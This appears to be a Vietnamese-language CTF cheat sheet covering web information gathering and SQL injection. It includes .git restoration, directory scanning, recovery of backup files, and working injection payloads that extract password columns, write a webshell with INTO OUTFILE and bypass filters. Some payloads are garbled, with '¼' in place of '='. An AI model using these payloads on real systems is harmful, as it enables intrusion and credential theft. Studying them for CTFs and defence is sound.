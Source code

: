 # CTF

# 1.1 Significant “Information Gathering”

## 1.1.1 Information leaks

Dùng tool [scrabble](https://github.com/denny0223/scrabble) để clone và restore .git folder

```
$ ./scrabble https://example.com/
```

Dùng `git reset --hard HEAD^` để về HEAD trước đó

Dùng tool [dirsearch](https://github.com/maurosoria/dirsearch) để scan default directories

```
$ python3 dirsearch.py -u https://target -e php,html,js -w /path/to/wordlist
```

## 1.1.2 Sensitive Backup Files

Dùng `~` thêm vào sau tên file để check gedit backup file

```
flag -> flag~
```

Dùng `.swp` thêm vào sau tên file để check vim backup file (khi bị tắt đột ngột), muốn restore nội dung thì ta làm như sau:

```
# Tạo file trùng tên
$ touch flag
# Restore file flag.swp
$ vim -r flag
# Result
$ cat flag
flag{tes}
```

## 1.1.3 Banner Indentification

Dùng [Wappalyzer](https://www.wappalyzer.com/) để scan banner information:

Hoặc dùng `buidtwith` trong python:

```
 
import builtwith

website = "https://example.com"  # Replace with the URL you want to analyze

results = builtwith.builtwith(website)

# Access the detected technologies
for category, technologies in results.items():
    print(category)
    for technology in technologies:
        print(technology)
```

# 1.2 SQL Injection

Dùng `group_concat()` (MySQL) hàm này dùng dấu `,` để combine các hàng được trả về từ bản ghi

```
?id=-1 union
select 1, group_concat(column_name) from information _schema.columns where table_name ¼ 'wp_user'
```

Dùng `mid()` (MySQL) hàm này giống `substring()` và `substr()`

```
SELECT title, content FROM wp_news WHERE id = '1' AND (SELECT MID((SELECT concat(user, 0x7e, pwd) FROM wp_user), 1, 1)) = 'a'
```

Dùng `updatexml()` (MySQL) hàm này để trigger Error based sqli

```
?id¼1' or updatexml(1, concat(0x7e,(select pwd from wp_user)),1)%23
```

Dùng `as` để trigger hiển thị ra màn hình

```
?id=(select%20pwd%20from%20wp_user)%20as%20title

# Hoặc cũng có thể sử dụng như sau:
$res = mysqli_query($conn, "SELECT title FROM ${_GET['table']}");

SELECT title FROM (SELECT pwd AS title FROM wp_user)x;
```

Dùng `into outfile` để ghi webshell vào nơi có quyền ghi file:

```
SELECT xx INTO outfile "/tmp/xxx.php" LINES TERMINATED BY '<?php phpinfo();?>'
```

Dùng `%09` để bypass replace th space (`%20`)

```
p?id=-1%09union%09selselectect%091,2
```

Dùng `sEleCT` để bypass match `SELECT`

Dùng `\bselect\b` hoặc `/*!50000select*/` để bypass 


# 1.3 Arbitrary File Read Vulnerability

## 1.3.1 PHP

Dùng `file_get_content(), file(), fopen(), fread(), fget(),...`
Dùng `include(), require(), include_once(), require_once(),...`
Dùng `system(), exec(),...`